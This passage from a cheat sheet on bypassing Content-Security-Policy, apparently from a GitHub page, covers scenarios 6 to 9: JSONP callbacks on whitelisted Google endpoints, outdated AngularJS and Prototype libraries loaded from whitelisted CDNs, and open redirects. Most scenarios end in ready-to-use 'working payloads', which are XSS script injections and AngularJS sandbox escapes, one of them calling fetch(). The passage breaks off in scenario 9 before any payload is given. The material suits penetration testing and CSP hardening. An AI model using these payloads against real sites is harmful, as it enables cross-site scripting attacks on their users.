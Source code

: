 working payloads :"/>'><script src="/user\_upload/mypic.png.js"></script>

**Scenario** : **6**

Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none' ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. [jsonp](https://github.com/zigoo0/JSONBee) endpoints allow insecure callback methods which allow an attacker to perform xss.

working payload :"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>

**Scenario** : **7**

Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; object-src 'none' ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a javascript library domain which is whitelisted. It can be bypassed using any vulnerable version of javascript file from that library , which allows the attacker to perform xss.

working payloads :<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>

 <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>  
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}  
 </div>

"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>

<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>

**Scenario** : **8**

Content-Security-Policy: script-src 'self' ajax.googleapis.com[;](https://cdnjs.cloudflare.com/;) object-src 'none' ;report-uri /Report-parsing-url;

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome [git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) repo.

working payloads :ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>

**Scenario** : **9**

Content-Security-Policy: script-src 'self' accounts.google.com/random/ website.with.redirect.com [;](https://cdnjs.cloudflare.com/;) object-src 'none' ; report-uri /Report-parsing-url;

In the above scenario, there are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a jsonp endpoint. And in this scenario XSS will execute because while redirection browser only validated host, not the path parameters.
